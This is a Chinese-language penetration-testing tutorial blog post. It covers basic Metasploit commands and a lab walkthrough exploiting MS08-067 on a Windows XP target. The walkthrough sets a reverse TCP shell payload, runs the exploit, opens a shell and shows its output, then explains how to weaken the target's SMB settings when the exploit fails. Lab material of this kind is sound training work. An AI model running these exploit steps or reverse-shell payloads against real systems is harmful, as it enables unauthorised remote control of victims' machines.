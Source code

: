 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      MSF 渗透测试2    # 标题 
subtitle:      #副标题
date:       2020-07-29        # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - 渗透测试
    - 工具使用
  
--- 
```


## Metasploit渗透测试

#### 基础

1. show exploits

	显示Metasploit框架中所有可用的渗透攻击模块

2. show auxiliary

	显示所有辅助模块及其用途。Metasploit框架中，辅助模块可以是扫描器、拒绝服务攻击工具、Fuzz测试器等

3. show options

	参数（options）是保证Metasploit框架中各个模块正确运行所需的各种设置。当选择一个模块并输入show options后，会列出这个模块所需的各种参数。

4. back

	输入back命令会返回Metasploit的上一个状态。

5. search 

	查找某个特定的渗透攻击、辅助或攻击载荷模块。

6. use

	使用use命令加载模块。

7. show options

	在已选择模块的命令提示符下，输入show options显示模块所需的参数。

8. show payloads

	Metasploit只会将与当前模块兼容的攻击载荷显示出来。

9. set、unsetg

	Metasploit模块中的参数只有两个状态：已设置（set）和未设置（unset）。有些参数被标记为必填项（required），这样的参数必须手工设置并处于启动状态。输入show options查看哪些参数是必填项；set对某个参数进行设置（同时启用该参数）；unset禁用相关参数。

10. show targets

	Metasploit的渗透攻击模块通常可以列出受到漏洞影响的目标系统的类型。

11. info

	info + 模块名显示此模块详细信息、参数说明以及所有可用的目标操作系统（若已选择某个模块，直接输入info）.

12. setg、unsetg

	setg 和unsetg能对全局参数进行设置或清除。如：LHOST

13. save

	将当前设置的值保存下来，在下次启动MSF终端时还可以使用这些设置值。

## MS08_067

**摘要**

此安全更新解决了服务器服务中一个秘密报告的漏洞。 如果用户在受影响的系统上收到特制的 RPC 请求，则该漏洞可能允许远程执行代码。 在 Microsoft Windows 2000、Windows XP 和 Windows Server 2003 系统上，攻击者可能未经身份验证即可利用此漏洞运行任意代码。 此漏洞可能用于进行蠕虫攻击。 防火墙最佳做法和标准的默认防火墙配置有助于保护网络资源免受从企业外部发起的攻击。

对于 Microsoft Windows 2000、Windows XP 和 Windows Server 2003 的所有受支持版本，此安全更新的等级为“严重”；对于 Windows Vista、Windows Server 2008 和 Windows 7 Beta 的所有受支持版本，此安全更新的等级为“重要”。 有关详细信息，请参阅本节中“受影响和不受影响的软件”小节。

测试环境： 

* 靶机： Windows XP Service Pack3 (IP: 192.168.2.128)

* 攻击机： kali (IP: 192.168.2.131)

使用nmap可以检测到漏洞

	nmap --script=vuln 192.168.2.128

搜索MS08——067相关模块

```
msf5 > search MS08_067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

使用并进入该模块

```
msf5 > use exploit/windows/smb/ms08_067_netapi 
[*] Using configured payload generic/shell_reverse_tcp

```

显示所需配置参数

	show options

显示对应可用payload

	show payloads 

设置payload

	set payload generic/shell_reverse_tcp     # #设置攻击载荷，反弹式shell

设置靶机和攻击机参数

```
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 192.168.2.128
RHOSTS => 192.168.2.128
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.2.131
LHOST => 192.168.2.131

```

显示该漏洞受影响的机器

	show targets

设置攻击机器型号

```
msf5 exploit(windows/smb/ms08_067_netapi) > set target Windows XP SP3 Chinese - Simplified (NX)
target => Windows XP SP3 Chinese - Simplified (NX)
```

也可根据自己需求设置其他参数。

使用`check`检查楼否可利用

```
msf5 exploit(windows/smb/ms08_067_netapi) > check
[+] 192.168.2.128:445 - The target is vulnerable.
```

用`exploit`开始攻击

```
msf5 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 192.168.2.131:4444 
[*] 192.168.2.128:445 - Attempting to trigger the vulnerability...
[*] Command shell session 2 opened (192.168.2.131:4444 -> 192.168.2.128:1035) at 2020-07-29 19:11:49 +0800



C:\WINDOWS\system32>whoami
whoami
'whoami' �����ڲ����ⲿ���Ҳ���ǿ����еĳ���
���������ļ���


C:\WINDOWS\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter ��������:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.2.128
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.2.2

Ethernet adapter Bluetooth ��������:

        Media State . . . . . . . . . . . : Media disconnected

```

可以看到已经成功控制了靶机。

这里有两个容易出现的错误。

1. **连接错误**：

	```
	msf5 exploit(windows/smb/ms08_067_netapi) > exploit

	[*] Started reverse TCP handler on 192.168.2.131:4444 
	[-] 192.168.2.128:445 - Exploit failed [unreachable]: Rex::ConnectionRefused The connection was refused by the remote host (192.168.2.128:445).
	[*] Exploit completed, but no session was created.
	```

	原因： 445端口没开放，即服务没启动。	

	解决方法：

	* 可以打开cmd,输入`net share`,会询问你是否开启服务，默认回车开启即可。
	* `win + r`输入`services.mcs`，打开`server`服务即可。

2. **登陆失败**
	
	```
	msf5 exploit(windows/smb/ms08_067_netapi) > exploit

	[*] Started reverse TCP handler on 192.168.2.131:4444 
	[-] 192.168.2.128:445 - Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
	[*] Exploit completed, but no session was created.
	```

	解决方法：

	* `win + r`打开`gpedit.msc`组策略管理，依次找到`本地计算机策略 - >计算机配置 - > Windows设置 - >安全设置 - >本地策略 - >安全选项`
	
	修改`网络访问：本地帐户的共享和安全模式`为`经典 - 本地用户以自己的身份验证`

	![amPNqO.png](https://s1.ax1x.com/2020/07/29/amPNqO.png)




	